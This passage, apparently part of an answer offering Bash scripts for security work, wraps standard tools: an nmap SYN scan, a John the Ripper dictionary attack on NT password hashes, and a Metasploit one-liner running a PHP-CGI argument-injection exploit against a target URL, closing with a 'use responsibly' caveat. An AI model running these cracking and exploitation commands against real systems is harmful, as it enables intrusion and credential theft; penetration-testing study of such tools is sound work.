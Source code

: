 ```bash
#!/bin/bash

for file in $(find . -name "*.txt"); do
    echo "File: $file"
    wc -l $file
done
```

2. Network scanning and enumeration example:

This Bash script performs a TCP SYN scan using Nmap to identify open ports on a target IP address:

```bash
#!/bin/bash

if [ $# -ne 1 ]; then
    echo "Usage: $0 <target IP>"
    exit 1
fi

nmap -sS $1
```

3. Password cracking example:

This Bash script uses John the Ripper to perform a dictionary attack against a hashed password file:

```bash
#!/bin/bash

if [ $# -ne 2 ]; then
    echo "Usage: $0 <password file> <dictionary file>"
    exit 1
fi

john --wordlist=$2 --format=nt $1
```

4. Vulnerability scanning and exploitation example:

This Bash script uses Metasploit to exploit a vulnerability in a target web application:

```bash
#!/bin/bash

if [ $# -ne 2 ]; then
    echo "Usage: $0 <target URL> <payload>"
    exit 1
fi

msfconsole -x "use exploit/multi/http/php_cgi_arg_injection; set RHOSTS $1; set PAYLOAD $2; run"
```

Again, please use these tools and techniques responsibly and only for legitimate purposes.

---
